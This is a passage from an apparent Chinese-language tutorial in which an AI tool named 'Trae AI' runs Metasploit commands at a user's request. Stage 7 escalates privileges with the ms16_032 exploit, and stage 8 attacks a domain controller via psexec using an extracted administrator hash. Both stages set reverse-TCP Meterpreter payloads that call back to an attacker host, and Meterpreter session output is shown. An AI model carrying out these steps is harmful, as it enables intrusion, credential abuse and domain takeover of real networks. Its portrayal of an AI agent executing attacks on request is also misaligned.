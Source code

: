 **成功結果：**
```
meterpreter > sysinfo
Computer        : WIN2012-SRV
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : COMPANY
Logged On Users : 3
Meterpreter     : x86/windows

meterpreter > getuid
Server username: COMPANY\john.doe
```

### 階段 7：權限提升

**用戶提問：**
```
在新獲得的服務器上提升到系統權限
```

**Trae AI 執行流程：**
```
# 1. 檢查權限提升機會
background
use post/multi/recon/local_exploit_suggester
set SESSION 2
run

# 2. 嘗試權限提升
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 2
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4446
exploit
```

### 階段 8：域控制器攻擊

**用戶提問：**
```
嘗試攻擊域控制器獲取域管理員權限
```

**Trae AI 執行流程：**
```
# 1. 使用獲得的高權限憑據攻擊域控
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.10
set SMBUser administrator
set SMBPass [extracted_admin_hash]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4447
exploit

# 2. 驗證域控訪問
sessions -i 4
sysinfo
getuid
```

